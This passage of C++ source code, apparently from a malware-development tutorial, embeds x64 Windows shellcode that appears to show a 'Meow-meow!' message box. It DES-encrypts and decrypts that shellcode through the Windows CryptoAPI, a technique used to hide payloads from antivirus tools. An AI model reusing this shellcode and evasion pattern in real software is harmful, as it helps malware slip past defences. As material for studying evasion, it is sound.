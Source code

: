 ```cpp
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  unsigned char enc_payload[my_payload_len + (block_len - (my_payload_len % block_len))];
  unsigned char dec_payload[my_payload_len];

  if (!CryptAcquireContext(&hProv, NULL, NULL, PROV_RSA_FULL, CRYPT_VERIFYCONTEXT | CRYPT_MACHINE_KEYSET)) {
    return 1;
  }

  if (!CryptGenKey(hProv, CALG_DES, CRYPT_EXPORTABLE, &hKey)) {
    CryptReleaseContext(hProv, 0);
    return 1;
  }

  encrypt_des(my_payload, enc_payload, my_payload_len, hKey);

  printf("encrypted:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("0x%02x, ", enc_payload[i]);
  }
  printf("\n\n");

  decrypt_des(enc_payload, dec_payload, my_payload_len, hKey);

  int r = sizeof(dec_payload) % block_len;
//   printf("%d\n", r);

//   for (int k = r; k > 0; k --) {
//     dec_payload[sizeof(dec_payload) - k] = '\x90';
//   }

  printf("decrypted:\n");
  for (int i = 0; i < sizeof(dec_payload); i++) {
    printf("0x%02x, ", dec_payload[i]);
  }
  printf("\n\n");

  CryptDestroyKey(hKey);
  CryptReleaseContext(hProv, 0);
```